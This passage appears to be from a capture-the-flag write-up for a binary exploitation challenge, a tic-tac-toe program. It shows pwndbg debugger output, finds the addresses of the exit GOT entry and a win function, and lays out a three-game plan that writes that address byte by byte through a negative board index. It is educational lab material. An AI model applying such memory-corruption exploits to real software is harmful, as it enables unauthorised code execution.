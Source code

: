 ```bash
───────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ rbp rsp 0x7fffffffde20 ◂— 0x1
01:0008│         0x7fffffffde28 —▸ 0x7ffff7def18a (__libc_start_call_main+122) ◂— mov    edi, eax
02:0010│         0x7fffffffde30 ◂— 0x0
03:0018│         0x7fffffffde38 —▸ 0x40148f (main) ◂— push   rbp
04:0020│         0x7fffffffde40 ◂— 0x100000000
05:0028│         0x7fffffffde48 —▸ 0x7fffffffdf38 —▸ 0x7fffffffe195 ◂— '/home/ctf/carol/tic-tac-toe.bin'
06:0030│         0x7fffffffde50 —▸ 0x7fffffffdf38 —▸ 0x7fffffffe195 ◂— '/home/ctf/carol/tic-tac-toe.bin'
07:0038│         0x7fffffffde58 ◂— 0x49e13301bdad6b8a
─────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────
 ► f 0         0x401493 main+4
   f 1   0x7ffff7def18a __libc_start_call_main+122
   f 2   0x7ffff7def245 __libc_start_main+133
   f 3         0x4010d1 _start+33
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg>
```

Now we are at a breakpoint in main, we can query values.

```bash
pwndbg> p &'exit@got.plt'
$2 = (<text from jump slot in .got.plt, no debug info> *) 0x404038 <exit@got[plt]>
pwndbg> p &board
$3 = (<data variable, no debug info> *) 0x404090 <board>
pwndbg> p &win
$4 = (<text variable, no debug info> *) 0x4011d9 <win>
```

Perfect, the offset from `board` to `exit@got[plt]` is `0x404038 - 0x404090 = -88 bytes`, and the `win` function is at address `0x4011d9`. What we want to do is to write the address to memory like this:

```c
board[-88] = 0xd9
board[-87] = 0x11
board[-86] = 0x40
```

If we do this, every call to `exit` will end up in `win`, since the function address was replaced. Now we have to find a way how we can play the game so that the address is overriden with the correct values. Since we only can change the symbol at the beginning of a game we have to play three games. The only thing we need to keep in mind is the current player for the next round. Since the player index is not reset before the game starts, it can be either player 1 or player 2 depending who did the last move. This needs to be considered when playing.

```bash
- Player 1 chooses symbol 0xd9
- Play game and let player 2 win, player 1 will write only to buffer[-88]
- Play another game 'Y'

- Player 1 chooses symbol 0x11
- Play game and let player 2 win, player 1 will write only to buffer[-87]
- Play another game 'Y'

- Player 1 chooses symbol 0x40
- Play game and let player 2 win, player 1 will write only to buffer[-86]
- Play another game 'N'
```
